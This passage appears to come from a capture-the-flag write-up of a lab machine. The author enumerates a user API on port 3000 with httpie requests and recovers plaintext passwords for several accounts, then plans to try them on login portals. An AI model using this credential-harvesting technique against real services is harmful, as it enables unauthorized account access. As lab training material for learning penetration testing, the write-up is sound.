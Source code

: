 ![](images/admin-pass.png)

```json
{
  "name": "Admin",
  "password": "WX5b7)>/rp$U)FW"
}
```

So till now We have 3 portal to try these credentials on.

*  Port 80 - `/login`
*  Port 80 - `/management/`
*  Port 8000 - `/`

I tried those credentials but none of them worked. So after thinking a bit I realized something. When we visted the `users/Admin` we got password for `Admin` but what if we try other user names maybe we can get password for them as well.

![](images/passwords.png)

```bash
➜ http http://10.10.10.137:3000/users/Derry $TOKEN | jq .
{
  "name": "Derry",
  "password": "rZ86wwLvx7jUxtch"
}

~
➜ http http://10.10.10.137:3000/users/Dory $TOKEN | jq .
{
  "name": "Dory",
  "password": "5y:!xa=ybfe)/QD"
}

~
➜ http http://10.10.10.137:3000/users/Yuri $TOKEN | jq .
{
```